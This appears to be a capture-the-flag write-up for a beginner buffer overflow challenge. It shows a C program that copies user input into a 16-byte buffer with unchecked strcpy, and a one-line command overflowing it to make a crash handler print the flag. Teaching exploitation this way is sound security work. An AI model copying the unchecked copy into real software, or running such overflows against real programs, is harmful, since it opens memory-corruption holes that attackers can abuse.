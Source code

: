 Buffer overflow 0 - Points: 150
===========

## Description

>Let's start off simple, can you overflow the right buffer in this program to get the flag?

## Hint:

> * How can you trigger the flag to print?
> * If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}

```

## Useful Information

There is no check of the input length at :
> * strcpy(buf, input);

The function : 
> * void sigsegv_handler(int sig)

will print the flag on stderr when an error occured .

## Exploit


**Making an error by overflowing the buf[16] will _trigger the function_ sigsegv_handler(int sig) which will print the flag on stderr:**

> ./vuln $(python -c 'print "A"*50')        


